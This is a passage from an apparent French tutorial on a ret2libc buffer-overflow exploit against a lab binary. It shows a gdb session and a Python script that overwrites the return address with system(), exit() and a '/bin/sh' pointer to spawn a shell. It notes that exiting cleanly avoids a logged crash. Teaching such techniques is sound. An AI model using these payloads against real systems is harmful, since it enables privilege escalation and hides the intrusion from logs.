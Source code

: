 
Cherchons alors l'adresse de `exit()`


{% highlight sh %}
gdb$ p exit
$3 = {<text variable, no debug info>} 0xb7e9d530 <exit>
gdb$ r "$(perl -e 'print "A"x20 . "\x20\x9e\xea\xb7" . "\x30\xd5\xe9\xb7" . "\xd2\xf6\xff\xbf"')"
AAAAAAAAAAAAAAAAAAAA ��0������

$ exit
[Inferior 1 (process 10896) exited normally]
--------------------------------------------------------------------------[regs]
  EAX:Error while running hook_stop:
No registers.
gdb$ 
{% endhighlight %}


Lorsque nous faisons un exit du premier shell avec notre adresse de retour `"OSEF"`, nous avons une faute de segmentation (qui sera loguée, donc qui laisse des traces), tandis qu'en cherchant l'adresse de la fonction `exit()`, et en la plaçant en adresse de retour, la sortie du shell que nous avons forké se fait sans erreur, comme le montre le message **exited normally**.


Comme ce n'est pas très lisible, voici un code python qui permet d'exploiter ce binaire avec les éléments que nous avons mis en place


{% highlight python %}
import os
import struct

# Addresses de system et "/bin/sh"
system   = 0xb7ea9e20
exit     = 0xb7e9d530
bin_sh   = 0xbffff6d2

# Buffer
payload  = "A"*28

# Overwrite sEBP (Valeur aleatoire)
payload += "HNDO"

# system("bin/sh") avec l'adresse de retour vers exit()
payload += struct.pack("I", system)
payload += struct.pack("I", exit)
payload += struct.pack("I", bin_sh)

os.system("./ret2libc \"%s\"" % payload)
{% endhighlight %}
